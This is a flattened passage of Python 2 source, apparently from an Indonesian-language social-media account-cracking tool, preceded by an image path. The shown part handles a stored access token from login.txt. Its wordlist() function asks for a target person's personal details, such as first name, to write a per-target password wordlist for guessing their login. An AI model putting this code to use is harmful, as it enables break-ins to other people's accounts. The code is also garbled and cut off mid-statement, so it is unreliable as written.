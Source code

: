 '\x1b[1;97m\xe2\x95\x90'         print '\x1b[1;91m[+] \x1b[1;92mStatus ID\x1b[1;91m : \x1b[1;97m' + op['id']         raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')         lain()   def wordlist():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         try:             os.system('clear')             print logo             print 40 * '\x1b[1;97m\xe2\x95\x90'             print '\x1b[1;91m[?] \x1b[1;92mIsi data lengkap target dibawah'             print 40 * '\x1b[1;97m\xe2\x95\x90'             a = raw_input('\x1b[1;91m[+] \x1b[1;92mNama Depan \x1b[1;97m: ')             file = open(a + '.txt', 'w')             b